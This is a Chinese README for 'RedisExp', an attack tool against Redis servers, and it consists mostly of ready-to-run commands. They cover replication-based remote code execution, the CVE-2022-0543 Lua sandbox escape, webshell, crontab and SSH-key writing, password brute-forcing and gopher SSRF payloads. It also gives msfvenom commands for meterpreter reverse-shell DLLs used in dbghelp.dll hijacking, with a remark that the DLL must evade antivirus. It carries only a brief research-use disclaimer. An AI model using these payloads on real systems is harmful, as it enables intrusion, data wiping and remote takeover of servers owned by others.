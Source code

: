 ## Redis 漏洞利用工具

快捷使用：`RedisExp`

```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

2022/05/23 23:36:54 [+]  -h 靓仔查看下帮助吧
Example:
主从复制命令执行:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so

主从复制文件上传:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload

主动关闭主从复制:
RedisExp.exe -rhost 192.168.211.131 -slaveof

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe -rhost 192.168.211.131 -lua -console

备份写 Webshell:
RedisExp.exe -rhost 192.168.211.131 -shell

Linux 写计划任务:
RedisExp.exe -rhost 192.168.211.131 -crontab

Linux 写 SSH 公钥:
RedisExp.exe -rhost 192.168.211.131 -ssh

爆破 Redis 密码:
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf ../pass.txt

执行 Redis 命令:
RedisExp.exe -rhost 192.168.211.131 -cli

生成 gopher ssrf redis payload: 

RedisExp.exe -gf 1.txt -gip 127.0.0.1:6379 -gopher

```

```
cmd
├── exp.dll        默认导入的Windows Redis模块
├── exp.so         导入的Linux Redis模块
├── main.go        编译攻击主程序
├── pass.txt       爆破字典

```



### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------



### 主从复制漏洞

#### 命令执行

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
Windows:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so
````

![](images/slave_Rce.png)

#### 文件上传

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```

![](images/slave_Upload.png)

#### Windows 劫持 dbghelp.dll

https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/#toc-heading-22

1、使用 msf 生成 dll ，（cs 需要自己写一个调用 rundll32 .exe的dll，不能直接使用）

```
# 64 位

msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=192.168.211.130 LPORT=5555 > 64.dll

# 32 位
msfvenom -p windows/meterpreter/reverse_tcp -ax86 -f dll LHOST=ip LPORT=端口 > reverse_32bit.dll
```

2、生成项目DLL后使用Koppeling项目中的Python3脚本来链接到转发DLL: https://github.com/monoxgas/Koppeling

```
python -m pip install pefile

python .\PyClone.py 64.dll C:\windows\system32\dbghelp.dll -o dbghelp.dll
```

3、利用主从复制上传制作好的  dbghelp.dll

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dbghelp.dll -lfile dbghelp.dll -upload
```

4、执行 bgsave 成功上线

```
RedisExp.exe -rhost 192.168.211.134 -cli

bgsave
```

5、dll 需要免杀，好像不太稳定，自行在本地测试再利用。



### RDB备份文件利用

#### 写 Webshell

```
RedisExp.exe -rhost 192.168.211.131 -shell
```

![](images/webshell.png)



### Linux写计划任务

没搭建环境测试

```
RedisExp.exe -rhost 192.168.211.133 -crontab
```

![](images/crontab.png)



### Linux写SSH公钥

没搭建环境测试

```
RedisExp.exe -rhost 192.168.211.133 -ssh
```

![](images/ssh.png)



### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```

![](images/lua.png)


### 爆破 Redis 密码

```
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf pass.txt
```

![](images/pass.png)



### 生成 Gopher Payload

redis 未授权写 shell (1.txt)

```
flushall
config set dir C:\phpstudy_pro\WWW
config set dbfilename test.php
set 'webshell' '<?php phpinfo();?>'
save
```



```
RedisExp.exe -gf 1.txt -gip 127.0.0.1:6379 -gopher
```

![](images/gopher.png)



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher

 

